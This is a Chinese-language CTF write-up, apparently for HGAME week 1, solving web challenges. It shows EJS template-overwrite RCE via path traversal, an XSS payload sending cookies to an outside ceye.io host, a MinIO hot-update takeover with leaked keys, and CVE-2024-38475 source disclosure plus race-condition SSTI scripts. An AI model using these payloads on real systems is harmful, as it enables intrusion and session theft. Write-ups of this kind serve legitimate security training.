Web
week1
Level 24 Pacman
拿到环境

一个小游戏，猜测应该是js审计

查看index.js发现代码进行了混淆
可以用工具反混淆一下，增加一下可读性
https://tool.yuanrenxue.cn/decode_obfuscator

反混淆之后找到这个

感觉是栅栏，解密拿到flag

Level 47 BandBomb
文件上传
附件有源码
1const express = require('express');
2const multer = require('multer');
3const fs = require('fs');
4const path = require('path');
5
6const app = express();
7
8app.set('view engine', 'ejs');
9
10app.use('/static', express.static(path.join(__dirname, 'public')));
11app.use(express.json());
12
13const storage = multer.diskStorage({
14 destination: (req, file, cb) => {
15 const uploadDir = 'uploads';
16 if (!fs.existsSync(uploadDir)) {
17 fs.mkdirSync(uploadDir);
18 }
19 cb(null, uploadDir);
20 },
21 filename: (req, file, cb) => {
22 cb(null, file.originalname);
23 }
24});
25
26const upload = multer({
27 storage: storage,
28 fileFilter: (_, file, cb) => {
29 try {
30 if (!file.originalname) {
31 return cb(new Error('无效的文件名'), false);
32 }
33 cb(null, true);
34 } catch (err) {
35 cb(new Error('文件处理错误'), false);
36 }
37 }
38});
39
40app.get('/', (req, res) => {
41 const uploadsDir = path.join(__dirname, 'uploads');
42
43 if (!fs.existsSync(uploadsDir)) {
44 fs.mkdirSync(uploadsDir);
45 }
46
47 fs.readdir(uploadsDir, (err, files) => {
48 if (err) {
49 return res.status(500).render('mortis', { files: [] });
50 }
51 res.render('mortis', { files: files });
52 });
53});
54
55app.post('/upload', (req, res) => {
56 upload.single('file')(req, res, (err) => {
57 if (err) {
58 return res.status(400).json({ error: err.message });
59 }
60 if (!req.file) {
61 return res.status(400).json({ error: '没有选择文件' });
62 }
63 res.json({
64 message: '文件上传成功',
65 filename: req.file.filename
66 });
67 });
68});
69
70app.post('/rename', (req, res) => {
71 const { oldName, newName } = req.body;
72 const oldPath = path.join(__dirname, 'uploads', oldName);
73 const newPath = path.join(__dirname, 'uploads', newName);
74
75 if (!oldName || !newName) {
76 return res.status(400).json({ error: ' ' });
77 }
78
79 fs.rename(oldPath, newPath, (err) => {
80 if (err) {
81 return res.status(500).json({ error: ' ' + err.message });
82 }
83 res.json({ message: ' ' });
84 });
85});
86
87app.listen(port, () => {
88 console.log(`服务器运行在 http://localhost:${port}`);
89});
这题有点像24国赛的ezjs
可以看到在 /rename 路由
1app.post('/rename', (req, res) => {
2 const { oldName, newName } = req.body;
3 const oldPath = path.join(__dirname, 'uploads', oldName);
4 const newPath = path.join(__dirname, 'uploads', newName);
5
6 if (!oldName || !newName) {
7 return res.status(400).json({ error: ' ' });
8 }
9
10 fs.rename(oldPath, newPath, (err) => {
11 if (err) {
12 return res.status(500).json({ error: ' ' + err.message });
13 }
14 res.json({ message: ' ' });
15 });
16});
这个路由会将uploads目录中的文件重命名
我们可以利用这个路由，通过目录穿越对任意文件进行移动和重命名
也就是说我们可以通过上传恶意的ejs到uploads目录，接着通过/rename路由将我们上传的恶意ejs文件覆写掉/路由的模板文件mortis.ejs实现RCE
eval.ejs
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
<div>
<%= process.mainModule.require('child_process').execSync('whoami') %>
</div>
</body>
</html>
将ejs上传

覆写原来的ejs

访问/

这题flag藏在环境变量里
payload:
<!DOCTYPE html>
<html lang="en">
<head>
</head>
<body>
<div>
<%= process.mainModule.require('child_process').execSync('printenv') %>
</div>
</body>
</html>

Level 69 MysteryMessageBoard
密码爆破，XSS cookie窃取

爆出来 shallot/888888
登进去看到一个留言板

猜测是xss，测试一下
<script>alert('XSS')</script>

同时通过dirsearch扫到了/admin路由


根据这句话大概可以猜到，访问/admin路由的时候应该会在后端以admin的身份来访问留言板
也就是说我们可以进行cookie窃取
payload:
<script>document.location='http://dfny33.ceye.io?'+document.cookie;</script>
将payload输出在留言板，然后访问/admin

成功拿到admin的cookie
拿admin的cookie访问/flag即可拿到flag
Level 25 双面人派对

这道题有两个环境，一开始以为是re，其实感觉更像是misc
访问app.service-web可以拿到一个main文件
是一个elf文件
用exeinfo PE查到用upx加壳了

用upx官方工具就可以脱壳
https://github.com/upx/upx/releases/latest
脱壳之后用ida打开

可以找到一段关于minio的密钥信息
.noptrdata:0000000000D614E0 000000AA C minio:\r\n endpoint: \"127.0.0.1:9000\"\r\n access_key: \"minio_admin\"\r\n secret_key: \"JPSQ4NOBvh2/W7hzdLyRYLDm0wNRMG48BL09yOKGpHs=\"\r\n bucket: \"prodbucket\"\r\n key: \"update\"
那我们大概就能猜到另一个环境应该就是这个minio的服务
用mc通过Access Key和Secret Key连接上去

里面有两个储存桶

将两个储存桶都下载下来

/hints里面放的是8080服务的源码，/prodbucket里面是源码编译后的文件叫做update，猜测是热更新
看一下源码
1package main
2
3import (
4 "level25/fetch"
5 "level25/conf"
6 "github.com/gin-gonic/gin"
7 "github.com/jpillora/overseer"
8)
9
10func main() {
11 fetcher := &fetch.MinioFetcher{
12 Bucket: conf.MinioBucket,
13 Key: conf.MinioKey,
14 Endpoint: conf.MinioEndpoint,
15 AccessKey: conf.MinioAccessKey,
16 SecretKey: conf.MinioSecretKey,
17 }
18 overseer.Run(overseer.Config{
19 Program: program,
20 Fetcher: fetcher,
21 })
22
23}
24
25func program(state overseer.State) {
26 g := gin.Default()
27 g.StaticFS("/", gin.Dir(".", true))
28 g.Run(":8080")
29}
我们可以猜测/路由展示的这个.目录就是前面我们下周main文件的目录
我们可以把.改成根目录/，然后将编译后的源码覆写掉原来的update，热更新后，我们就能直接访问根目录了
payload:
package main
import (
"level25/fetch"
"level25/conf"
"github.com/gin-gonic/gin"
"github.com/jpillora/overseer"
)
func main() {
fetcher := &fetch.MinioFetcher{
Bucket: conf.MinioBucket,
Key: conf.MinioKey,
Endpoint: conf.MinioEndpoint,
AccessKey: conf.MinioAccessKey,
SecretKey: conf.MinioSecretKey,
}
overseer.Run(overseer.Config{
Program: program,
Fetcher: fetcher,
})
}
func program(state overseer.State) {
g := gin.Default()
g.StaticFS("/abc", gin.Dir("/", true))
g.Run(":8080")
}
这里我将/路由改成了/abc，因为不知道为啥我用/路由不行
将源码编译后覆写到储存桶上

访问/abc

拿到flag

Level 38475 角落
ssti/条件竞争

/robots.txt有个/app.conf

访问/app.conf

这里展示了httpd.conf的片段
这里给出了源码的位置还有一个重写引擎的规则，猜测应该是该版本的apache存在源码泄露
同时在响应标头能找到Apache的版本信息

可以找到这个版本的apache存在源码泄露，而且是跟重写规则有关
CVE-2024-38475

网上没找到什么poc
但是可以找到漏洞发现者的一篇文章
https://blog.orange.tw/posts/2024-08-confusion-attacks-en/

根据这篇文章我们可以构造出paylaod
http://node1.hgame.vidar.club:31155/admin/usr/local/apache2/app/app.py%3F
这道题多了一个RewriteCond “%{HTTP_USER_AGENT}” “^L1nk/”，只需要在user-agent前面加上L1nk/即可

拿到源码
1from flask import Flask, request, render_template, render_template_string, redirect
2import os
3import templates
4
5app = Flask(__name__)
6pwd = os.path.dirname(__file__)
7show_msg = templates.show_msg
8
9
10def readmsg():
11 filename = pwd + "/tmp/message.txt"
12 if os.path.exists(filename):
13 f = open(filename, 'r')
14 message = f.read()
15 f.close()
16 return message
17 else:
18 return 'No message now.'
19
20
21@app.route('/index', methods=['GET'])
22def index():
23 status = request.args.get('status')
24 if status is None:
25 status = ''
26 return render_template("index.html", status=status)
27
28
29@app.route('/send', methods=['POST'])
30def write_message():
31 filename = pwd + "/tmp/message.txt"
32 message = request.form['message']
33
34 f = open(filename, 'w')
35 f.write(message)
36 f.close()
37
38 return redirect('index?status=Send successfully!!')
39
40@app.route('/read', methods=['GET'])
41def read_message():
42 if "{" not in readmsg():
43 show = show_msg.replace("{{message}}", readmsg())
44 return render_template_string(show)
45 return 'waf!!'
46
47
48if __name__ == '__main__':
49 app.run(host = '0.0.0.0', port = 5000)
可以看到/read路由存在ssti，但是他waf掉了最重要的{
但是可以看到这个/send路由会将传入的信息写入message.txt文件，在访问/read路由的时候则会读取message.txt文件。这么一来我们就可以考虑通过竞争的方式来绕过waf了。竞争思路大概就是我在很短的时间内连续发送两条信息，第一条信息是合法信息，而第二条信息是不合法的，那么就会存在一种情况，当第一条信息通过了判断，接下来要将文件的内容插入到模板中渲染的时候，刚好第二条不合法的信息覆写了message.txt，那么插入模板中的就是第二条不合法的信息了
接下来就是搓脚本发包
三个脚本
poc1
1import requests
2while True:
3 burp0_url = "http://node1.hgame.vidar.club:30762/app/send"
4 burp0_headers = {"Cache-Control": "max-age=0", "Accept-Language": "zh-CN,zh;q=0.9", "Origin": "http://node1.hgame.vidar.club:30762", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://node1.hgame.vidar.club:30762/app/index", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
5 burp0_data = {"message": "{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}"}
6 res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
7 print(res.status_code)
8
poc2
1import requests
2while True:
3 burp0_url = "http://node1.hgame.vidar.club:30762/app/send"
4 burp0_headers = {"Cache-Control": "max-age=0", "Accept-Language": "zh-CN,zh;q=0.9", "Origin": "http://node1.hgame.vidar.club:30762", "Content-Type": "application/x-www-form-urlencoded", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://node1.hgame.vidar.club:30762/app/index", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
5 burp0_data = {"message": "123"}
6 res = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
7 print(res.status_code)
poc3
1import requests
2while True:
3 burp0_url = "http://node1.hgame.vidar.club:30762/app/read"
4 burp0_headers = {"Accept-Language": "zh-CN,zh;q=0.9", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Connection": "keep-alive"}
5 res = requests.get(burp0_url, headers=burp0_headers)
6 # print(res.text)
7 if "hgame" in (res.text):
8 print(res.text)
9 break
成功执行，拿到flag
